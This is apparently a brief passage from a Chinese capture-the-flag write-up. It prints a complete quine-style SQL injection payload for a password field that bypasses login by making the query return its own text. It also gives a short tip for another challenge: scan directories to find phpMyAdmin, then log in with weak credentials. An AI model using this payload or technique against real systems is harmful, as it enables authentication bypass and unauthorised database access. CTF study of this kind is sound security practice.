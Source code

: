 就是一个自查询实现SQL注入

```
password='UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("1",CHAR(34),CHAR(39)),CHAR(49),"1")%23',CHAR(34),CHAR(39)),CHAR(49),'"UNION/**/SELECT/**/REPLACE(REPLACE("1",CHAR(34),CHAR(39)),CHAR(49),"1")%23')%23
```

## easy_sql

扫目录拿`phpmyadmin`目录，然后弱口令登录

## 初赛的wp：

https://blog.csdn.net/miuzzx/article/details/125576866?spm=1001.2014.3001.5502



